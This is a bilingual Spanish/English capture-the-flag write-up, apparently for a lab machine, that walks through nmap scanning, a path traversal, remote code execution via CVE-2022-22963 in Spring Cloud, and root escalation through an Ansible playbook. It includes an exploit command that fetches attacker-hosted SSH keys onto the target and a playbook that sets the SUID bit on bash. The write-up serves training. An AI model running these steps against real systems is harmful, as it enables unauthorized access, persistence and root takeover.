





:::::{.spanish}
- [Reconocimiento](#reconocimiento)<br>
- [Obteniendo acceso a la máquina víctima](#obteniendo-acceso-a-la-máquina-víctima)<br>
	- [Directory Path Traversal](#directory-path-traversal)<br>
	- [CVE-2022-22963(RCE)](#cve-2022-22963rce)<br>
- [Escalada de privilegios](#escalada-de-privilegios)<br>
	- [Escalada de privilegios de usuario](#escalada-de-privilegios-de-usuario)<br>
	- [Escalada de privilegios a root](#escalada-de-privilegios-a-root)<br>
:::::

:::::{.english}
- [Recognition](#recognition)<br>
- [Gaining access to the victim machine](#gaining-access-to-the-victim-machine)<br>
	- [Directory Path Traversal](#directory-path-traversal)<br>
	- [CVE-2022-22963(RCE)](#cve-2022-22963rce)<br>
- [Privilege escalation](#privilege-escalation)<br>
	- [User privileges escalation](#user-privileges-escalation)<br>
	- [Privilege escalation to root](#privilege-escalation-to-root)<br>
:::::


:::::{.spanish}

# Reconocimiento

Comprobamos la disponibilidad de la máquina objetivo:

```bash
 ping -c 1 10.10.11.204
```

<br>

```
PING 10.10.11.204 (10.10.11.204) 56(84) bytes of data.
64 bytes from 10.10.11.204: icmp_seq=1 ttl=63 time=46.0 ms

--- 10.10.11.204 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 45.959/45.959/45.959/0.000 ms
```

**ttl = 63** por tanto nos enfrentamos a una máquina Linux por proximidad.

Comprobamos los servicios expuestos:

```bash
 nmap -p- --open -T5 -Pn -n 10.10.11.204 -oG openTCPports
```

<br>

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 10:42 CET
Nmap scan report for 10.10.11.204
Host is up (0.089s latency).
Not shown: 43330 closed tcp ports (reset), 22203 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 34.26 seconds
```

Extraemos los puertos relevantes y lanzamos una serie de scripts de reconocimiento predefinidos por nmap para recopilar información sobre los servicios expuestos:

```bash
 grePorts
```

<br>

```
 [!] Open ports: 22,8080
```

Nmap:

```bash
 nmap -p22,8080 -sVC 10.10.11.204 -oN servicesTCPports
```

<br>

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 10:52 CET
Nmap scan report for 10.10.11.204
Host is up (0.091s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.56 seconds
```

# Obteniendo acceso a la máquina víctima

## Directory Path Traversal

Echando un vistazo a la página web accesible a través del puerto 8080 llegamos a un punto donde subir los archivos; a pesar de intentar pasar algunas restricciones, no se puede subir un archivo php, solo acepta imágenes; jugando un poco con las peticiones al subir imágenes:



Vía potencial para poder listar directorios y ojear archivos del sistema:



Dos usuarios potenciales: phil y frank. Veamos si podemos extraer algo de información relevante de los directorios de estos usuarios:



Echando un vistazo a los archivos con los que está construido el sitio web no parece haber opción de pasar las restricciones y subir algún archivo php. La contraseña anterior tampoco sirve para el usuario phil, por lo menos para ssh. Por lo que habrá que seguir indagando.



## CVE-2022-22963(RCE)

La web está programada sobre el framework spring; echando un vistazo al "pom.xml" del proyecto maven podemos ver esto y la versión de las dependencias. Con una breve búsqueda podemos encontrar la vulnerabilidad que afecta a Spring Cloud y la cual nos dará la posibilidad de ejecutar comandos de forma remota: CVE-2022-22963.

Automatizo el exploit para solo tener que introducir el comando pertinente, [puedes verlo aquí o en la página de CVE exploits](/cve-exploits/#cve-2022-22963).

Ya con esto podríamos obtener una "reverse shell", pero prefiero obtener una consola por ssh; creo un nuevo par de claves inicio y simple servidor web con Python y:

```bash
 ./spring_cloud_functionCV 10.10.11.204:8080 'wget http://<htb-ip>:12345/authorized_keys -O /home/frank/.ssh/authorized_keys'
```
<br>

```
[!] RCE: The command has been executed
  [+] Host: 10.10.11.204:8080
  [+] Command: wget http://<htb-ip>:12345/authorized_keys -O /home/frank/.ssh/authorized_keys
  [+] Status: OK
```

Finalmente:

```bash
 ssh frank@10.10.11.204 -i injectrsa
```

# Escalada de privilegios


## Escalada de privilegios de usuario

Una vez dentro como el usuario frank utilizamos la contraseña para phil que anteriormente hemos visto:



Lo más relevante es que pertenecemos al grupo 'staff'. Vemos la flag del usuario.

## Escalada de privilegios a root

Tras buscar un poco encuentro un directorio en opt sobre el que el grupo "staff" tiene permisos; en él hay un archivo yaml llamado "playbook". Esto parece ser una tarea automática de ansible.

Echo  un vistazo a ver si encuentro la tarea de automatización:

```bash
while [[ 1 -eq 1 ]]
do
 ps aux -u root | grep ansible
done
```

Y el script recopila lo siguiente lo siguiente:

```
root       10216  0.0  0.0   2608   596 ?        Ss   13:04   0:00 /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

Por tanto preparamos un archivo siguiendo la sintaxis YAML para que ejecute un comando como root siguiendo la tarea programada:

```yaml
- hosts: localhost
  tasks:
    - name: "4rticf0xwashere"
      shell: "chmod +s /bin/bash"
      register: "output"
```

Con esto le damos permisos suid a bash y podemos obtener permisos de administrador.
      
:::::

:::::{.english}

# Recognition

We check the availability of the target machine:

```bash
 ping -c 1 10.10.11.204
```

<br>

```
PING 10.10.11.204 (10.10.11.204) 56(84) bytes of data.
64 bytes from 10.10.11.204: icmp_seq=1 ttl=63 time=46.0 ms

--- 10.10.11.204 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 45.959/45.959/45.959/0.000 ms
```

**ttl = 63** so we are dealing with a Linux machine by proximity.

We checked the services on display:

```bash
 nmap -p- --open -T5 -Pn -n 10.10.11.204 -oG openTCPports
```

<br>

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 10:42 CET
Nmap scan report for 10.10.11.204
Host is up (0.089s latency).
Not shown: 43330 closed tcp ports (reset), 22203 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 34.26 seconds
```

We extract the relevant ports and launch a series of reconnaissance scripts predefined by nmap to gather information about the exposed services:

```bash
 grePorts
```

<br>

```
 [!] Open ports: 22,8080
```

Nmap:

```bash
 nmap -p22,8080 -sVC 10.10.11.204 -oN servicesTCPports
```

<br>

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 10:52 CET
Nmap scan report for 10.10.11.204
Host is up (0.091s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.56 seconds
```

# Gaining access to the victim machine

## Directory Path Traversal

Taking a look at the web page accessible through port 8080 we arrive at a point where to upload files; despite trying to pass some restrictions, it is not possible to upload a php file, it only accepts images; playing a little with the requests when uploading images:


Potential way to list directories and browse system files:


Two potential users: phil and frank. Let's see if we can extract some relevant information from the directories of these users:


Taking a look at the files the website is built with there doesn't seem to be an option to pass the restrictions and upload any php files.The above password does not work for the phil user either, at least for ssh. So we will have to investigate further.


## CVE-2022-22963(RCE)

The web is programmed on the spring framework; taking a look at the "pom.xml" of the maven project we can see this and the version of the dependencies.With a brief search we can find the vulnerability that affects Spring Cloud and which will give us the possibility to execute commands remotely: CVE-2022-22963.

I automate the exploit so that I only have to enter the relevant command, you can see it in the pentesting-web-scripts publication.

Already with this we could get a "reverse shell", but I prefer to get a console by ssh; I create a new key pair start and simple web server with Python:

```bash
 ./spring_cloud_functionCV 10.10.11.204:8080 'wget http://<htb-ip>:12345/authorized_keys -O /home/frank/.ssh/authorized_keys'
```
<br>

```
[!] RCE: The command has been executed
  [+] Host: 10.10.11.204:8080
  [+] Command: wget http://<htb-ip>:12345/authorized_keys -O /home/frank/.ssh/authorized_keys
  [+] Status: OK
```

Finally:

```bash
 ssh frank@10.10.11.204 -i injectrsa
```

# Privilege escalation


## User privileges escalation

Once inside as the user frank we use the password for phil that we have previously seen:


The most relevant thing is that we belong to the 'staff' group. We see the user's flag.

## Privilege escalation to root

After some searching I find a directory in opt that the "staff" group has permissions on; in it is a yaml file called "playbook". This appears to be an automatic ansible task.

I take a look to see if I can find the automation task:

```bash
while [[ 1 -eq 1 ]]
do
 ps aux -u root | grep ansible
done
```

And the script compiles the following:

```
root       10216  0.0  0.0   2608   596 ?        Ss   13:04   0:00 /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

Therefore we prepare a file following the YAML syntax to execute a command as root following the scheduled task:

```yaml
- hosts: localhost
  tasks:
    - name: "4rticf0xwashere"
      shell: "chmod +s /bin/bash"
      register: "output"
```

With this we give suid permissions to bash and we can get administrator permissions.
      
:::::